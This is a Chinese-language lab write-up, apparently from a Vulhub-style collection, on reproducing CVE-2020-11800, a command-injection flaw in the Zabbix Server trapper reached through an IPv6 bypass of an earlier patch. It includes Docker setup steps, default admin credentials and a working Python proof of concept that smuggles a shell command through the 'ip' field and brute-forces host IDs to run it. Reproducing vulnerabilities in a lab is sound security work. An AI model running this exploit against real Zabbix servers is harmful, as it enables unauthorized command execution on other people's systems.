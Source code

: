 # Zabbix Server trapper命令注入漏洞 CVE-2020-11800

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)中，其Server端 trapper command 功能存在一处代码执行漏洞，而修复补丁并不完善，导致可以利用IPv6进行绕过，注入任意命令。

参考链接：

- https://xz.aliyun.com/t/8991

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

使用账号密码`admin/zabbix`登录后台。利用该漏洞，需要你服务端开启了自动注册功能，开启方法请参考[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)。

## 漏洞复现

修改[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)的POC中的IP字段，构造新的POC：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/awesome_poc_2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

当查看到如下结果时，则说明命令执行成功：

![image-20220303153034616](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031530752.png)

进入server容器，可见`/tmp/awesome_poc_2`已成功创建：

![image-20220303153108613](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031531690.png)

